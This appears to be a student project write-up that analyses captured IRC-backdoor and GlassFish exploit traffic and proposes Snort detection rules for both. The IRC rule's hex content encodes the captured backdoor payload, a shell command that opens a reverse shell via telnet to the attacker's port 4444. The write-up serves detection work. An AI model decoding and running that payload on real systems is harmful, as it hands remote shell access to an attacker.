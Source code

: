 # Network Exploit Analysis and Snort Rule Development

This project involves analyzing network traffic from two recorded exploits using Wireshark and developing Snort IDS rules to detect these attacks while minimizing false positives. 
The packet captures contain traffic from a network administrator who isolated known exploit attempts. 
The project includes two main analyses: an IRC Backdoor Exploit and a GlassFish Deployer Exploit.

IRC Backdoor Exploit Analysis:
File: irc_backdoor_exploit.pcapng

Attacker IP: 10.1.1.3<p>
Victim IP: 10.2.2.4<p>
Victim Port: 6697<p>
Number of Attack Attempts: 2<p>
Attack Payload Packets: [4, 11]<p>
Proposed Snort Rule:<p>
alert tcp 10.1.1.3 any -> 10.2.2.4 6697 (msg:"IRC Backdoor Exploit Attempt"; content:"41423b7368202d63202728736c65657020343631307c74656c6e65742031302e312e312e3320343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e65742031302e312e312e332034343434203e2f6465762f6e756c6c20323e2631202629270a"; sid:1000001; rev:1;)
<p></p>
Feedback from Network Administrator: The command should look for a specific string pattern ("AB;") in the payload.
<p></p>
False Positives: The rule is specific to the payload content; however, it may still trigger false positives if the same payload pattern appears in legitimate traffic. 
Careful tuning and adding more context checks, such as specific sequences or additional packet attributes, may be required to reduce false positives.
<p><p></p></p>

GlassFish Deployer Exploit Analysis:<p>
File: glassfish_deployer_exploit.pcapng
<p><p></p></p>
Attacker IP: 10.1.1.3<p></p>
Victim IP: 10.2.2.3>p>
Victim Port: 4848<p></p>
Number of Attack Attempts: 3<p></p>
Attack Payload Packets: [38, 85, 132]<p></p>
Proposed Snort Rule:<p></p>
alert tcp 10.1.1.3 any -> 10.2.2.3 4848 (msg:"GlassFish Deployer Exploit Attempt"; content:"3c7469746c653e4465706c6f7920456e7465727072697365204170706c69636174696f6e732f4d6f64756c65733c2f7469746c653e0a6f732e6e616d65203d204c696e75780a6f732e61726368203d20783836"; sid:1000002; rev:1;)

Feedback from Network Admin: The rule should specifically look for "post" or "upload" and ".war".
<p></p>
Attack Identification: The payload content indicates the deployment of a malicious application/module to the GlassFish server, likely exploiting a vulnerability in the deployment functionality. 
This attack pattern aligns with exploits targeting the GlassFish server's deployment service, specifically CVE-2011-0807.
<p></p>
False Positives: Similar to the IRC Backdoor rule, this Snort rule is based on specific payload content. 
Legitimate deployments or configurations with similar payload patterns may trigger false positives. Adding more context to the rule, such as checking for additional malicious indicators or behaviors, can help minimize false positives.
<p></p>
Learning and Improvement:<p></p>

During this project, valuable feedback from a network administrator significantly enhanced my understanding and skills in creating Snort IDS rules. Here are some key takeaways:

Specific Pattern Matching: Initially, my Snort rules were too general, which could lead to a high rate of false positives. The feedback emphasized the importance of looking for specific string patterns within the payload, such as "AB;" in the IRC Backdoor Exploit. This helped me refine the rule to be more precise.<p>
Understanding Context: The suggestion to include checks for specific actions like "post," "upload," and ".war" in the GlassFish Deployer Exploit was crucial. This feedback taught me that understanding the context of the attack and incorporating it into the rule can greatly improve detection accuracy while reducing false positives.<p>
Continuous Learning: The feedback loop highlighted the importance of continuous learning and adaptation. It reminded me that in the field of cybersecurity, especially when working with tools like Snort, it's essential to keep refining rules based on observed behavior and expert insights.
This feedback has not only improved the quality of the Snort rules I developed but also deepened my understanding of network security practices.
<p></p>

Resources used: <p>

https://lwn.net/Articles/392201/

https://nvd.nist.gov/vuln/detail/CVE-2011-0807
